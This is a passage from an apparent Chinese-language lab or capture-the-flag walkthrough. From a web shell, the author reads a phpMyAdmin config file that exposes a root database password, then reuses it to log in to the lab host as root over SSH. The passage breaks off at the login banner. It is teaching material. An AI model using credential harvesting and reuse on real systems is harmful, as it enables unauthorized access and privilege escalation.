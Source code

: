 -   ![image-20230608100919229](https://raw.githubusercontent.com/r0o983/images/main/image-20230608100919229.png)

-   查看文件具体配置信息：

-   ```shell
    www-data@indishell:/var/www/phpmy$ cat config.inc.php
    cat config.inc.php
    <?php
    
    /* Servers configuration */
    $i = 0;
    
    /* Server: localhost [1] */
    $i++;
    $cfg['Servers'][$i]['verbose'] = 'localhost';
    $cfg['Servers'][$i]['host'] = 'localhost';
    $cfg['Servers'][$i]['port'] = '';
    $cfg['Servers'][$i]['socket'] = '';
    $cfg['Servers'][$i]['connect_type'] = 'tcp';
    $cfg['Servers'][$i]['extension'] = 'mysqli';
    $cfg['Servers'][$i]['auth_type'] = 'cookie';
    $cfg['Servers'][$i]['user'] = 'root';
    $cfg['Servers'][$i]['password'] = 'roottoor';
    $cfg['Servers'][$i]['AllowNoPassword'] = true;
    
    /* End of servers configuration */
    
    $cfg['DefaultLang'] = 'en-utf-8';
    $cfg['ServerDefault'] = 1;
    $cfg['UploadDir'] = '';
    $cfg['SaveDir'] = '';
    
    
    /* rajk - for blobstreaming */
    $cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
    $cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
    $cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
    $cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';
    
    
    ?>
    www-data@indishell:/var/www/phpmy$ 
    
    ```

-   由于当前配置的用户为`root`用户，尝试使用`ssh`来进行登录`(root:roottoor)`

### 密码提权（一）

-   成功获取root权限

-   ```shell
    ❯ ssh root@192.168.2.143        
    The authenticity of host '192.168.2.143 (192.168.2.143)' can't be established.
    ECDSA key fingerprint is SHA256:UyLCTuDmpoRJdivxmtTOMWDk0apVt5NWjp8Xno1e+Z4.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.2.143' (ECDSA) to the list of known hosts.
    root@192.168.2.143's password: 
    Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)
    
